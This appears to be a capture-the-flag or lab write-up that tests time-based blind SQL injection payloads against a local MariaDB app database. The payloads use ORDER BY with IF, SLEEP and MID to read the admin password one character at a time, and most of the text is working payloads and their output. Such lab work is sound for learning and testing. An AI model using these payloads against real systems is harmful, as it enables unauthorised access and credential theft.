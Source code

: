 I run mariadb client to test SQL Query with SQLi payload.

Setup:

```console
$ docker-compose exec db mariadb -h localhost --user app --password=REDACTED photatopower
...
MariaDB [photatopower]> prompt > 
PROMPT set to '> '
> # check users table schema
> DESC users;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| id       | int(11)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(255) | YES  | UNI | NULL    |                |
| password | varchar(255) | YES  |     | NULL    |                |
| is_admin | tinyint(1)   | YES  |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
4 rows in set (0.001 sec)

> # check admin record
> SELECT * FROM users WHERE username="admin";
+----+----------+----------+----------+
| id | username | password | is_admin |
+----+----------+----------+----------+
|  1 | admin    | REDACTED |        1 |
+----+----------+----------+----------+
1 row in set (0.001 sec)
```

OK: SQLi with ORDER BY clause.
Time-Based SQLi with ORDER BY clause is working:

```console
> # without SQLi payload query
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC;
+----+-----+----------+---------+-----------+---------------------+
| id | num | pipeline | user_id | processed | processed_date      |
+----+-----+----------+---------+-----------+---------------------+
|  4 | E   |          |       2 |         1 | 2023-12-11 04:19:25 |
+----+-----+----------+---------+-----------+---------------------+
1 row in set (0.001 sec)

> # OK: SLEEP(3) only
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, SLEEP(3);
...
1 row in set (3.002 sec)  # SLEEP(3)

> # OK: SLEEP(3) with IF statement
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, IF(true, SLEEP(3), 1);
...
1 row in set (3.001 sec)  # SLEEP(3)

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, IF(false, SLEEP(3), 1);
...
1 row in set (0.001 sec)  # no SLEEP(3) because if condition is false

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF((SELECT password FROM users WHERE username="admin")="REDACTED", SLEEP(3), 1);
...
1 row in set (3.002 sec)

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(MID((SELECT password FROM users WHERE username="admin"),1,1)="R", SLEEP(3), 1);
...
```
